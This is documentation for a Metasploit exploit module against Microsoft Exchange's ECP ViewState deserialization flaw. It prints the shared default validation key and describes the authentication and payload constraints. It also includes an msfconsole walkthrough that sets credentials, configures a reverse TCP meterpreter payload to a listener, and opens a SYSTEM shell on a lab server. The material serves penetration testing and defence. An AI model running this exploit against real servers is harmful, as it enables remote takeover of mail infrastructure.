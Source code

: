 ## Vulnerable Application

This module exploits a .NET serialization vulnerability in the Exchange Control
Panel (ECP) web page. The vulnerability is due to Microsoft Exchange Server not
randomizing the keys on a per-installation basis resulting in them using the
same validationKey and decryptionKey values. With knowledge of these, values an
attacker can craft a special viewstate to cause an OS command to be executed by
NT_AUTHORITY\SYSTEM using .NET deserialization.

The default ViewState validation key is: `cb2721abdaf8e9dc516d621d8b8bf13a2c9e8689a25303bf`.

This module requires the user to authenticate to Exchange. At a minimum the user
must be a member of the `Domain Users` group and have a mailbox configured on
the Exchange server.

The crafted ViewState must be submitted to the server in a GET request (POST
requests will not work) which introduces a size restriction on the contents. Due
to this, OS commands are limited to a length of approximately 450 which accounts
for the overhead of the serialization data. The OS command must also be XML
encoded which increases the size as well. The .NET deserialization used is the
"TextFormattingRunProperties" chain from the [ysoserial.net][1] project.

## Verification Steps
  Example steps in this format (is also in the PR):

  1. Install the application
  1. Start msfconsole
  1. Do: `use exploit/windows/http/exchange_ecp_viewstate`
  1. Set the `RHOSTS`, `USERNAME` and `PASSWORD` options
  4. Do: `run`
  5. You should get a shell.

### Version and OS

  For example:

    msf5 > use exploit/windows/http/exchange_ecp_viewstate
    msf5 exploit(windows/http/exchange_ecp_viewstate) > set RHOSTS 192.168.159.129
    RHOSTS => 192.168.159.129
    msf5 exploit(windows/http/exchange_ecp_viewstate) > set USERNAME msflab.local\\jdoe
    USERNAME => msflab.local\jdoe
    msf5 exploit(windows/http/exchange_ecp_viewstate) > set PASSWORD Password1
    PASSWORD => Password1
    msf5 exploit(windows/http/exchange_ecp_viewstate) > set TARGET 1
    TARGET => 1
    msf5 exploit(windows/http/exchange_ecp_viewstate) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
    PAYLOAD => windows/x64/meterpreter/reverse_tcp
    msf5 exploit(windows/http/exchange_ecp_viewstate) > set LHOST 192.168.159.128
    LHOST => 192.168.159.128
    msf5 exploit(windows/http/exchange_ecp_viewstate) > exploit
    
    [*] Started reverse TCP handler on 192.168.159.128:4444 
    [*] Command Stager progress -   3.61% done (449/12424 bytes)
    [*] Command Stager progress -   7.23% done (898/12424 bytes)
    [*] Command Stager progress -  10.84% done (1347/12424 bytes)
    [*] Command Stager progress -  14.46% done (1796/12424 bytes)
    [*] Command Stager progress -  18.07% done (2245/12424 bytes)
    [*] Command Stager progress -  21.68% done (2694/12424 bytes)
    [*] Command Stager progress -  25.30% done (3143/12424 bytes)
    [*] Command Stager progress -  28.91% done (3592/12424 bytes)
    [*] Command Stager progress -  32.53% done (4041/12424 bytes)
    [*] Command Stager progress -  36.14% done (4490/12424 bytes)
    [*] Command Stager progress -  39.75% done (4939/12424 bytes)
    [*] Command Stager progress -  43.37% done (5388/12424 bytes)
    [*] Command Stager progress -  46.98% done (5837/12424 bytes)
    [*] Command Stager progress -  50.60% done (6286/12424 bytes)
    [*] Command Stager progress -  54.21% done (6735/12424 bytes)
    [*] Command Stager progress -  57.82% done (7184/12424 bytes)
    [*] Command Stager progress -  61.44% done (7633/12424 bytes)
    [*] Command Stager progress -  65.05% done (8082/12424 bytes)
    [*] Command Stager progress -  68.67% done (8531/12424 bytes)
    [*] Command Stager progress -  72.28% done (8980/12424 bytes)
    [*] Command Stager progress -  75.89% done (9429/12424 bytes)
    [*] Command Stager progress -  79.51% done (9878/12424 bytes)
    [*] Command Stager progress -  82.74% done (10279/12424 bytes)
    [*] Command Stager progress -  86.15% done (10703/12424 bytes)
    [*] Command Stager progress -  89.43% done (11111/12424 bytes)
    [*] Command Stager progress -  92.91% done (11543/12424 bytes)
    [*] Command Stager progress -  96.28% done (11962/12424 bytes)
    [*] Sending stage (206403 bytes) to 192.168.159.129
    [*] Command Stager progress -  99.84% done (12404/12424 bytes)
    [*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.129:17626) at 2020-03-02 10:40:52 -0500
    [*] Command Stager progress - 100.00% done (12424/12424 bytes)
    
    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM
    meterpreter > sysinfo
    Computer        : EXCHANGE
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : MSFLAB
    Logged On Users : 9
    Meterpreter     : x64/windows
    meterpreter > 

[1]: https://github.com/pwntester/ysoserial.net
